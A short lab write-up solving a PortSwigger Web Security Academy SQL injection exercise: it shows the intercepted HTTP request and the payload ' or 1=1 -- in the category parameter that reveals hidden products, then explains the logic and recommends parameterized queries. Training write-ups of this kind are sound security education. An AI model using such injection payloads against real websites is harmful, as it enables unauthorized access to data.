 
---

- 🎯 **Target:** PortSqigger SQL injection Lab - vulnerability in WHERE clause allowing retrieval of hidden data
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 10.05.2025
- 📁 **Category:** Web - SQL injection (Boolean-Based)
- 📊 **Difficulty:** APPRENTICE

---

## 🔍 Intercepting request 

> I intercept the request in the product category filter in BurpSuite:

```http

GET /filter?category=Pets HTTP/2
Host: 0ad20070035e51de80f5531f000400cf.web-security-academy.net
Cookie: session=JwFMOw2KWBHSBohtlqtnlcSF1rm0vHQa
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad20070035e51de80f5531f000400cf.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> Need to force the application to display additional hidden products on the page.

> Testing SQL injection in the `category` parameter using a logical expression (Boolean-Based SQL injection):

```http

GET /filter?category=' or 1=1 -- HTTP/2

```

> **Result: display unreleased products**
![unreleased_product](./screenshots/unreleased_product.png)

> It's work.

> **Note** this works because `OR 1=1` always returns true; `--` symbol is used as a comment in SQL syntax. Anything after it is ignored.
> So it turns out that the logical expression with `or` in this case with `WHERE category = '' or 1=1` results in all rows from the `products` table being selected without filtering
> by category.

> **Result: solved lab**
![solved_lab](./screenshots/solved_lab.png)

## conclusion

> To protect against Boolean-Based SQL injection, you can use prepared statements. That is, instead of substituting data directly into the SQL string `"SELECT * FROM products WHERE category = '" + user_input + "'"`
> use `cursor.execute("SELECT * FROM products WHERE category = ?", (user_input,))`. This way, user input is not interpreted as part of the SQL query.

> You also need to escape the quote characters - `' '` and `" "` (but it is better to use parameterization).

